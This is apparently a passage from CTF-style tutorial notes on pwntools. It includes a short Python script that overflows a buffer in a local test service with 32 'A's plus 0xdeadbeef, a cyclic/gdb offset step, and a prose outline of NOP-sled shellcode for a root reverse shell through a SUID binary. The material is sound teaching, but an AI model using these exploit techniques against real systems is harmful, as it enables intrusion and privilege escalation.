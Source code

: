 ```
[*] '/home/buzz/IntroToPwntools/IntroToPwntools/networking/serve_test'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```python
#!/usr/bin/env python

from pwn import *

connect = remote('127.0.0.1', 1337)

print(connect.recvn(18))

payload = "\x41" * 32 + p32(0xdeadbeef)

connect.send(payload)

print(connect.recvn(34))
```

Follows the same methodology as before - just a practical demonstration

--------------------------------------------------------------------------------

### Shellcraft

ASLR: Address Space Layout Randomization

```
- Randomises where in memory the executable is loaded each and everytime it is run
```

```bash
cyclic 200 > payload
gdb intro2pwnFinal
# r < payload
# EIP 'taaa'
```

Developing an exploit to gain a root shell by exploiting a binary file with its SUID bit set.

Rather than attempt to get another function to run like it was done earlier - we can add custom shellcode which will spawn a reverse shell on our machine

To do this we must find the `EIP` as before and direct it to the stack where we placed our code.

The top of the stack named `ESP` points to the top of the stack - and we need an offset to the `ESP` location.

Finding the offset is a matter of trial-and-error. In this scenario, it is given as 200

In assembly, there is an instruction called `NOP` which is `0x90` in hex form and passes the `EIP` to the next space in memory.
